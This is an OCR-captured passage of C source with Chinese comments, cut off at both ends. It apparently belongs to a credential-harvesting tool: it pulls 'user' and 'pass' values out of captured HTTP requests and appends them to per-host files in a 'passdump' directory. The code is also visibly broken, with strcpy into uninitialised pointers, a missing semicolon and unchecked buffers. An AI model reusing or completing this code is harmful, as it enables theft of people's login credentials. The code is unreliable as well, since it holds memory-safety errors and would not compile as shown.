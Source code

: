 ```
    char *user;
    char *pass;
    user=strstr(buffer,"user");
    pass=strstr(buffer,"pass");

    if(user&&pass)
    {
        user=strstr(user,"=")+1;
        pass=strstr(pass,"=")+1;

        for(i=0;user[i]!='\0'&&flag==0;i++)
        {
            if(user[i]=='&')
            {
                user[i]='\0';
                flag=1;
            }
        }
        flag=0;
        for(i=0;pass[i]!='\0'&&flag==0;i++)
        {
            if(pass[i]=='&')
            {
                pass[i]='\0';
                flag=1;
            }
        }
    }
    else 
    {
        strcpy(user,"unknown");     strcpy(pass,"unknown");     }   update_log(basepath,host,user,pass); } 
//写文本文件保存信息
void writeLog(char *path,char *user,char *pass)
{
    FILE *fp = fopen(path,"a");
    fputs("\r\n",fp);
    fputs(user,fp);
    fputs("\r\n",fp)
    fputs(pass,fp);
    fputs("\r\n",fp);
    fflush(stdout);
    fclose(fp);
}

//写文件，以host命名，因为是直接读的Host: ***.com，因此去掉前面的前缀
void update_log(char *basepath,char *host,char *user,char *pass)
{
    char tmppath[1629];
    strcpy(tmppath,basepath);
    strcat(tmppath,"/passdump/");
    writeLog(strcat(tmppath,host+6),user,pass);
}


int main()
{
    char basepath2[128];
    char basepath[128];
    char buffer[1629]="0";
    char pass[1629]="0";
    char pass2[1629]="0";
    char host[1629]="0";
```